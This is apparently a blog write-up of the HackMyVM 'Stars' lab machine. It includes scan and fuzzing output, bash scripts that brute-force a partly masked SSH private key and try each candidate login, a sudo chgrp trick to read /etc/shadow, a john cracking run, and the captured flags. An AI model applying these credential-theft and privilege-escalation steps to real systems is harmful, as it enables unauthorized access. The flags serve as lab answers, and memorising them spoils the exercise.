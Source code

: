 ```yaml
---
layout: post
author: canarinho
title:  "Stars"
date:   2021-12-31 09:52:10 AM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Stars)

## Scannning and Fuzzing

{% highlight bash  %}
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2021-12-28 13:30 -03
Nmap scan report for debian (192.168.15.96)
Host is up (0.0040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   3072 9e:f1:ed:84:cc:41:8c:7e:c6:92:a9:b4:29:57:bf:d1 (RSA)
|   256 9f:f3:93:db:72:ff:cd:4d:5f:09:3e:dc:13:36:49:23 (ECDSA)
|_  256 e7:a3:72:dd:d5:af:e2:b5:77:50:ab:3d:27:12:0f:ea (ED25519)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
|_http-title: Cours PHP & MySQL
|_http-server-header: Apache/2.4.51 (Debian)
MAC Address: 08:00:27:00:E5:67 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 7.32 seconds
{% endhighlight %}

The cookie show us the file we looking for: poisonedgift.txt.

Accessing it, we found this private key:

{% highlight text %}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsruS5/Cd7clZ+SJJj0cvBPtTb9mfFvoO/FDtQ1i8ft3IZC9tHsKP
ut0abGtFGId9R0OB1ONB+iOMK5QNpoCXda3RDXJQ9oRCWjd2DxqRAyvdThhxq6wYJSATpa
l7M9UemrK/aDuZTAqLUSA9Zvpx474TiWXBMjdGqN2K/+SCf/DqIyknDLDRexe0Lc0IsNCV
/O39j4XJprHXMQZNaiokSuzV3VlXAYYBcTIK2Id/EMerpQdiNjMGvVIuBxfbF9/MGhEnR+
1fxxPTHZnKw5snlb47ynWtahCuZVVQr0b+c5z6MXVSJKP8LY0m8clQqUCwbPbCJnRJRCwh
TJY/xz0cu4H+Lbtx38iUv6NjiPXsvd/0FPjmNWrIwA3m4yYQL1dmSCX7JZAqYV5axI8box
Z4oHJP5dHADWdzic2XSqDSpIMxnDhlLh02ksCfNbkNkqbsiw/AO6IxnToPLH7jVjoYxnmA
y97klEGvt2UqIugfUV1p6j1sybTcM59ZUbo16i47AAAFiNnGZRvZxmUbAAAAB3NzaC1yc2
EAAAGBALK7kufwne3JWfkiSY9HLwT7U2/Znxb6DvxQ7UNYvH7dyGQvbR7Cj7rdGmxrRRiH
fUdDgdTjQfojjCuUDaaAl3Wt0Q1yUPaEQlo3dg8akQMr3U4YcausGCUgE6WpezPVHpqyv2
g7mUwKi1EgPWb6ceO+E4llwTI3Rqjdiv/kgn/w6iMpJwyw0XsXtC3NCLDQlfzt/Y+Fyaax
1zEGTWoqJErs1d1ZVwGGAXEyCtiHfxDHq6UHYjYzBr1SLgcX2xffzBoRJ0ftX8cT0x2Zys
ObJ5W+O8p1rWoQrmVVUK9G/nOc+jF1UiSj/C2NJvHJUKlAsGz2wiZ0SUQsIUyWP8c9HLuB
/i27cd/IlL+jY4j17L3f9BT45jVqyMAN5uMmEC9XZkgl+yWQKmFeWsSPG6MWeKByT+XRwA
1nc4nNl0qg0qSDMZw4ZS4dNpLAnzW5DZKm7IsPwDuiMZ06Dyx+41Y6GMZ5gMve5JRBr7dl
KiLoH1Fdaeo9bMm03DOfWVG6NeouOwAAAAMBAAEAAAGBAICL9cGJRhzCZ0qOhXdeDAw6Mi
1MyGX/HQ4Nqkd4p8FbA4hCr+mipzsPULTPhdd5gvnhLJyPgmFEdcjV5+drrwM9KxDPujlC
sHIwV2HPiqJMRxOm8wI0eP0ij97jATArRKKgkpeF3eBZ6Q9E78SDtavFhkmYfJYAOXq0NA
eNMuqPu+Xj8CjpdxBf4P/b6jc5HdbW2DoEUB7q40loLf+AJbAZnEthuPjoh1sBUdmfwhyw
btv3boRquJsrYt1JJ***qguwyDSLtXj4Wuxa7jZcLLSAuTHS+zWKwZA/8J1IpZAZhgkVXJ
fC8ZbG0M63VEQjuGXCuIY3cq1iQuXERhhbRuJ1XZT8Hki5YBaU/f5Wp7bId25Aps4ktljU
r67S9mwwppQ8dVmP6CsENgc3ivpWCDWC4PZojTgZ4qhWMpjCaUxe1Hi7GuvlRJNLL4A7Fx
kTV9nBcLlGfqzvVUPeEAZgXz4IxCx8KdTrDr/oXWw4hjqtuyRKveMjmKQ6HADFl7SMCQAA
AMBz8rqB0Mfb4U34LeA1kdZLFsGX3AZqahTDjEcZYAPI/A5Dt5iw0LcGRgrHuPccS5fA3E
GT2FceoMX2ccE5fEVydxcj2vcnPIQ01P6fxjVXpA7QDnJ2At2LLPcD9CuuSt/HCrp/Bmjv
IUFvjSgKl5nYGPfoeitIdFdM72liQ+0814iNzxNl5WuNeiJ+XAGuXqJT02gAxMRQPiJ67e
sMzJyVvM69B0kGkyAXTO9fcfq+X2JaCz3hId6Iwr68Mxe/L6MAAADBAOEpkHeU8xn5MHwG
79vpd6Cg7p1UqfDuvMOgvZe6eIOE3FIb1nWpCqjq9P0Myv8aCWYhwgKr3SNIWkZ1u+0NR9
43cZO7FWa4/DvI5gX6dlrcGy1BVoDuMWIWDw9bgXpQiGQSkQOQ3J/RPWH/xT5LQbrBVTK8
C8r4lrWDwWLMgk1Wbef6U0NBuY1+J4Hafsz2Psei3yFsjjA3djonb8JF+RnHRoO8TeJlj4
RjbkXTlhsGkdR77PNZmkZ2KVwn2VzsPwAAAMEAyzYixNTrJ4vPtjUluq7+O9qGwqpbl3i0
9ESSrC2NzbsA2afNjCWhfaLPpfNYR2gA1aQUgdRxNSM78P+plFhMUeGwTIsLsKEkbbtSqF
nUU/g3yNGFr4Die7AB0vZSHwWaQFMf+ZfXNwVRa0jmKfUc/itXgwxi3oqtWTJA7YKmXdrD
03EN/DboyflPcbmTJ4D6E6XqTeyfGamr0w5aelqqwTh/Mm+DuoHHiPMYThUMrG4iUvSRaz
ZgGQTtZoQRxi8FAAAADXNvcGhpZUBkZWJpYW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight %}

{% highlight bash  %}
ffuf -u <http://192.168.15.96/FUZZ.txt> -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30

	sshnote                 [Status: 200, Size: 117, Words: 22, Lines: 5]
{% endhighlight %}

[http://192.168.15.96/sshnote.txt](http://192.168.15.96/sshnote.txt)

{% highlight text %}
My RSA key is messed up, it looks like 3 capital letters have been replaced by stars.
Can you try to fix it?

sophie
{% endhighlight %}

## Getting ssh access, thank you

{% highlight bash  %}
#!/bin/bash

directory=keys
letters=dic.txt
file=id_rsa

mkdir $directory

for i in $(cat $letters); do
	echo generate $directory\\\\$i.rsa [$i]
	sed "s/\\*\\*\\*/$i/" $file > $directory/$i.rsa
done;
{% endhighlight %}

{% highlight bash  %}
#!/bin/bash

directory=keys
letters=dic.txt

chmod 600 $directory/*

for i in $(ls -1 $directory/*); do
	echo $i
	ssh sophie@192.168.15.96 -i $i 2>/dev/null
done;
{% endhighlight %}

The right letters is BOM. So... BOOOM ehehe

{% highlight text %}
user.txt 	->	a99ac9055a3e60a8166cdfd746511852
{% endhighlight %}

## Privesc

{% highlight bash  %}
sophie@debian:~$ sudo -l
User sophie may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /usr/bin/chgrp

sophie@debian:~$ sudo /usr/bin/chgrp sophie /etc/shadow
sophie@debian:~$ cat /etc/shadow
root:$1$root$dZ6JC474uVpAeG8g0oh/7.:18917:0:99999:7:::
{% endhighlight %}

{% highlight bash  %}
john passroot --wordlist=/usr/share/wordlists/rockyou.txt
barbarita        (?)
{% endhighlight %}

Now, just access login as root and pow bow tchau.

{% highlight text %}
root.txt 	->	bf3b0ba0d7ebf3a1bf6f2c452510aea2
{% endhighlight %}
